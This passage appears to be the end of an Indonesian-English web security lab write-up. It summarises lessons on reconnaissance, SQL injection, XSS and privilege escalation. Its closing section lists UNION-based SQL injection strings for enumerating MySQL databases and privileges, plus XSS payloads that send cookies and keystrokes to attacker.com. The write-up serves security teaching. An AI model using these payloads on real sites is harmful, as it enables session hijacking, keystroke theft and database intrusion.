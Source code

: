 ## 🎓 Learning Points

### 1. Reconnaissance adalah Kunci
- Selalu mulai dengan port scanning
- Directory enumeration mengungkap file sensitif
- Information gathering dari source code dan comments

### 2. SQL Injection Techniques
- Authentication bypass dengan OR conditions
- Union-based injection untuk data extraction
- Information schema untuk database enumeration

### 3. XSS Discovery
- Stored XSS lebih berbahaya dari reflected XSS
- Selalu check input fields yang tidak di-sanitize
- XSS bisa digunakan untuk session hijacking

### 4. Privilege Escalation
- Admin access membuka lebih banyak attack surface
- Kombinasi vulnerabilities lebih powerful
- Systematic approach menghasilkan complete compromise

### 5. Methodology
- Follow a systematic approach
- Document semua findings
- Chain exploits untuk maximum impact

## 🔧 Advanced Techniques

### Database Enumeration
```sql
-- Get database version
' UNION SELECT 1,@@version,3,4,5-- 

-- Get current user
' UNION SELECT 1,user(),3,4,5-- 

-- Get all databases
' UNION SELECT 1,schema_name,3,4,5 FROM information_schema.schemata-- 

-- Get file privileges (if available)
' UNION SELECT 1,file_priv,3,4,5 FROM mysql.user WHERE user='root'-- 
```

### XSS Payloads
```javascript
// Basic alert
<script>alert('XSS')</script>

// Cookie stealing
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>

// Keylogger
<script>document.onkeypress=function(e){fetch('http://attacker.com/log.php?key='+String.fromCharCode(e.which))}</script>
```
